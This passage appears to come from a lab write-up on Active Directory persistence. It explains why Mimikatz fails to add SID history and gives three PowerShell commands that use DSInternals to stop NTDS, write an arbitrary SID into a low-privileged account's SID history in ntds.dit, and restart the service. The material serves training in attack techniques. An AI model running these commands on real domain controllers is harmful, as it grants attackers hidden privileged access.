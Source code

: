 <figure><img src="../../.gitbook/assets/image (36) (4) (2).png" alt=""><figcaption></figcaption></figure>

We could use something like Mimikatz to add SID history. However, the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history. Hence we need to use something else. In this case, we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored.

**Victim(powershell) - THMDC**

```
Stop-Service -Name ntds -force 

Add-ADDBSidHistory -SamAccountName $UsernameOfOurLow-privelegedADAccount -SidHistory $SIDtoAddToSIDHistory -DatabasePath C:\Windows\NTDS\ntds.dit 

Start-Service -Name ntds  
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
